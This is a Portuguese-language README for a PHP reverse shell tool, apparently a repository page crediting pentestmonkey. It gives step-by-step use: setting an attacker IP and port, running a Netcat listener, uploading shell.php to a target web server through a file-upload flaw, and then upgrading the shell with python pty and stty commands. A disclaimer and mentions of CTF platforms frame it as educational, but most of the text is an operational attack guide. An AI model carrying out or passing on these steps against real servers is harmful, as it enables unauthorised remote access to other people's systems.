 # reverse_shell
Este script permite que um invasor obtenha um shell interativo em um servidor web alvo ou em um alvo que execute PHP. Ele funciona estabelecendo uma conexão de volta para a máquina do invasor.
PHP Reverse Shell

Uma implementação de um reverse shell em PHP.

Este script permite que um invasor obtenha um shell interativo em um servidor web alvo que execute PHP. Ele funciona estabelecendo uma conexão de volta para a máquina do invasor.
⚠️ Aviso Legal

    Este script deve ser usado apenas para fins educacionais e em ambientes autorizados. A utilização desta ferramenta em sistemas aos quais você não possui permissão explícita é ilegal. O autor e os contribuidores não se responsabilizam por qualquer mau uso ou dano causado por este programa. Use por sua conta e risco.

Como Usar

Para executar este reverse shell, você precisa de duas partes: a máquina do invasor (onde você receberá a conexão) e a máquina do alvo (o servidor web que executará o script).
Passo 1: Configuração do Script

Antes de tudo, você precisa editar o arquivo shell.php para configurar o endereço IP e a porta do ouvinte (sua máquina).

Abra o arquivo e altere as seguintes linhas:

$ip = '10.10.10.10';  // <<< MUDE PARA O SEU IP DE ATACANTE
$port = 4444;       // <<< MUDE PARA A PORTA QUE VOCÊ VAI OUVIR

    $ip: Coloque o endereço IP da sua máquina. Se você estiver em uma VPN para uma plataforma de CTF (como HackTheBox ou TryHackMe), use o IP da sua interface tun0. Você pode encontrá-lo com o comando ifconfig tun0 ou ip addr show tun0.

    $port: Escolha uma porta que não esteja em uso na sua máquina. Portas como 4444, 1337 ou 9001 são comuns.

Passo 2: Iniciar o Ouvinte (Listener) na Sua Máquina

Na sua máquina de ataque, você precisa de um "ouvinte" para esperar e "pegar" a conexão que o servidor alvo enviará de volta. A ferramenta mais comum para isso é o Netcat (nc).

Abra um terminal e execute o seguinte comando, substituindo <SUA_PORTA> pela mesma porta que você configurou no script:

nc -lvnp <SUA_PORTA>

    -l: Modo de escuta (listen).

    -v: Modo verboso (mostra mais informações).

    -n: Não resolver DNS (mais rápido).

    -p: Especifica a porta.

Seu terminal ficará parado com uma mensagem como listening on [any] 4444.... Isso significa que ele está pronto e aguardando a conexão.
Passo 3: Executar o Shell no Servidor Alvo

Esta é a parte que depende do cenário:

    Faça o upload do arquivo shell.php (já configurado) para o servidor web alvo. Geralmente, isso é feito explorando uma vulnerabilidade de upload de arquivos.

    Acesse o script através do seu navegador. Navegue até a URL onde o arquivo foi salvo. Por exemplo:
    http://<IP_DO_ALVO>/uploads/shell.php

Passo 4: Obtenha o Acesso!

No momento em que você acessar o script no navegador, ele será executado no servidor. O servidor então se conectará de volta à sua máquina.

Olhe para o seu terminal onde o Netcat está rodando. Você deverá ver uma mensagem de conexão e, em seguida, um prompt de comando ($), que é o terminal do servidor alvo!

$ whoami
www-data
$ ls -la
.
..
index.html
shell.php

Melhorando o Shell (Shell Interativo)

O shell que você recebe do Netcat por padrão não é totalmente interativo (as setas, o autocompletar com Tab e o Ctrl+C podem não funcionar corretamente). Para "estabilizar" o shell e torná-lo totalmente funcional, siga estes passos:

    No shell do Netcat, execute o seguinte comando (pressupondo que o Python esteja instalado no alvo):

    python3 -c 'import pty; pty.spawn("/bin/bash")'

    Se o python3 não funcionar, tente com python.

    Na sua máquina local, pressione Ctrl+Z para colocar o processo do Netcat em segundo plano.

    Ainda na sua máquina local, execute o seguinte comando para ajustar seu terminal:

    stty raw -echo; fg

    Pressione Enter uma ou duas vezes. Pronto! Agora você tem um shell totalmente interativo.

Créditos

Este script é uma implementação popular do conceito de reverse shell, amplamente divulgado e mantido pela comunidade de segurança, com a versão original creditada a pentestmonkey.net.
